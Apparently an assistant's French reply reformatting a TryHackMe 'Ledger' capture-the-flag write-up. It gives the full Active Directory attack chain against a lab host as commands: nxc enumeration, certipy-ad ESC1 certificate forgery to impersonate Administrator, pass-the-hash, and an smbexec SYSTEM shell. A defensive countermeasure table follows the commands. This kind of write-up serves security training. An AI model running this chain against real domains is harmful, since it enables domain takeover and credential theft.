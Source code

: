 Merci pour ce partage du texte ! Je vois ce que tu veux dire : le texte est dense, un peu « tout collé », et pas très agréable à lire sur une page web.

Je te propose un **exemple simple de mise en forme Markdown claire et structurée** qui facilitera la lecture, avec titres, listes, blocs de code, et emojis pour une lecture fluide.

---

# Exemple de reformattage Markdown (extrait de ton write-up)

````markdown
# 🧾 TryHackMe - Ledger – Write-up Complet (FR)

**Room :** [https://tryhackme.com/room/ledger](https://tryhackme.com/room/ledger)

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`) pour obtenir une exécution de commande en tant qu’administrateur de domaine via une attaque AD CS (ESC1) et la réutilisation de hash NTLM.

---

## 🔍 1. Scan et découverte initiale

### 🔎 Scan Nmap

```bash
nmap -Pn -sC -sV -T4 -p- labyrinth.thm.local
````

* Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.
* Ports 389 (LDAP) et 88 (Kerberos) également ouverts, environnement Active Directory confirmé.

### 🛠️ Préparation

Ajout dans `/etc/hosts` :

```
labyrinth.thm.local thm.local LABYRINTH
```

### 🧪 Tests d'accès invités

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
```

✅ Plusieurs utilisateurs récupérés, dont deux partagent le même mot de passe.

### 🔐 Accès initial

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

✅ Connexion confirmée.
Utilisation de Remmina pour ouvrir un accès graphique RDP.
📁 `user.txt` récupéré.

---

## 🧩 2. Exploitation d'AD CS – ESC1

### 🔬 Découverte de la vulnérabilité

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Modèle de certificat vulnérable : **ServerAuth**.

### ❗ Détails de la faille ESC1

* ESC1 (Enterprise Security Control 1) permet de forger un certificat pour n’importe quel utilisateur, même Domain Admin.
* Conditions :

  * `ENROLLEE_SUPPLIES_SUBJECT` activé
  * `Client Authentication EKU` présent
  * Groupe `Authenticated Users` peut s’enrôler

### 📥 Requête de certificat en se faisant passer pour l’administrateur

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
  -ca thm-LABYRINTH-CA -template ServerAuth \
  -target labyrinth.thm.local -upn Administrator@thm.local
```

✔️ Un certificat `.pfx` est généré.

### 🪪 Authentification avec le certificat

```bash
certipy-ad auth -pfx administrator.pfx
```

✔️ Récupération d’un hash NTLM valide du compte Administrator.

---

## 🔁 3. Test du hash NTLM (Pass-the-Hash)

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès administrateur confirmé. 🎉

---

## 🚀 4. Exécution de commande à distance (Shell SYSTEM)

```bash
smbexec.py -k -hashes :07d677XXXXXXX322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✅ Shell SYSTEM via SMB.
📁 Récupération de `root.txt`.

---

## 🔐 5. Bonnes pratiques défensives (Blue Team)

| Problème                        | Contremesure recommandée                                  |
| ------------------------------- | --------------------------------------------------------- |
| SMB exposé                      | Restreindre les accès SMB aux hôtes autorisés             |
| Pass-the-Hash NTLM              | Activer LAPS, Forcer Kerberos (désactiver NTLM)           |
| ESC1 sur modèles de certificats | Désactiver ENROLLEE\_SUPPLIES\_SUBJECT, restreindre accès |
| Pas de monitoring ADCS          | Auditer les requêtes de certificats                       |
| Pas de journalisation 4625      | Activer l’audit des échecs d’authentification             |
| Aucune segmentation réseau      | Isoler les contrôleurs de domaine                         |
| Pas de détection post-exploit   | Déployer un SIEM avec règles sur smbexec, psexec, wmiexec |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)
* certipy
* crackmapexec
* smbexec.py

---

## 📌 À retenir pour la défense

* Surveillez les modèles de certificats.
* Ne laissez pas les utilisateurs choisir leurs propres sujets.
* Sécurisez SMB et éliminez NTLM si possible.
* Déployez la journalisation et les alertes ADCS.

```

